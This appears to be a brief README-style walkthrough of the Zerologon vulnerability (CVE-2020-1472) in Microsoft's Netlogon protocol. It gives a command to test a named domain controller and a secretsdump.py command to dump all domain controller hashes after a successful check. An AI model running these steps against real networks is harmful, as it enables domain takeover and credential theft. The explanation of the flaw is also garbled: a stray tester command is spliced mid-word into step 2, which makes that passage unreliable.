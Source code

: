 Zerologon (CVE-2020-1472) is a critical vulnerability in Microsoft's Netlogon Remote Protocol (MS-NRPC), disclosed in August 2020. It allows an unauthenticated attacker to take over a domain controller in Active Directory environments, enabling a complete compromise of the entire network. Here’s a brief overview:
How Zerologon Works:

1- The flaw exists in the Netlogon Remote Protocol, which is used to authenticate users and computers to domain controllers.<br>
2- Due to a flaw in the cryptographic implementation, an attacker can manipulate authentication exchanges by sending specially crafted packets with all-zerzerologon_tester.py EXAMPLE-DC 1.2.3.4o initialization vectors.<br>
3- With this, the attacker can impersonate any computer, including the domain controller, and reset the domain controller’s machine account password to an empty string.<br>

We can test if the target vuln or not:
```
python3 zerologon_tester.py <Dc name> <DC ip>
Performing authentication attempts...
============================
Success! DC can be fully compromised by a Zerologon attack.
```
The DC name should be its **NetBIOS** computer name. If this name is not correct, the script will likely fail with a ```STATUS_INVALID_COMPUTER_NAME``` error.<br>
If vulnarable we could dump all the DC hashes:
```
secretsdump.py -just-dc 'DC name$'@<DC ip>
```


